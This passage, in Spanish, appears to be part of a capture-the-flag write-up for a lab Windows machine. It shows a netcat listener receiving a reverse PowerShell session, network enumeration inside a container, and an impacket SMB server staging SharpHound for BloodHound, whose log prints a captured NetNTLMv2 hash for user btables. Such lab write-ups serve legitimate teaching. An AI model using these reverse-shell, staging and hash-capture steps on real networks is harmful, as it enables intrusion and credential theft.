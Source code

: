En otra ventana me pongo en escucha por el puerto 443 y recivo la Shell

```null
nc -nlvp 443
PS C:\Users\btables\AppData\Local\Temp\SDIAG_b958471e-cc88-4078-ba3f-1c5962d69a35>
```

Se puede observar que estoy en un contenedor y que el hostname no coincide con el de la máquina target

```null
PS C:\> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet:

   Connection-specific DNS Suffix  . : 
   IPv4 Address. . . . . . . . . . . : 172.16.20.20 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 172.16.20.1

PS C:\> hostname
client
```

Para aplicar pivoting, lo más optimo es enumerar posibles formas de escalar privilegios con BloodHound

Para ello, hay que subir un injestor y descargar los datos al equipo local

Con impacket-smbserver comparto el SharpHound.exe

```null
smbserver.py shared /opt -smb2support
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.175,49868)
[*] AUTHENTICATE_MESSAGE (OUTDATED\btables,CLIENT)
[*] User CLIENT\btables authenticated successfully
[*] btables::OUTDATED:aaaaaaaaaaaaaaaa:b8b87d9796ae7f0bdc9f757d435d154e:0101000000000000807f0023912ad901d27e444b00ca208e0000000001001000480067007300550066006900740065000300100048006700730055006600690074006500020010004c005900660052005900610044007a00040010004c005900660052005900610044007a0007000800807f0023912ad901060004000200000008003000300000000000000000000000002000000cf12c5a6aeff35eaacb25eaa44900199edbafe0a21f0a0973a82a099ba316f00a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0032000000000000000000
[*] Connecting Share(1:IPC$)
[-] SMB2_TREE_CONNECT not found SharpHound.exe
[-] SMB2_TREE_CONNECT not found SharpHound.exe
[*] Disconnecting Share(1:IPC$)
```
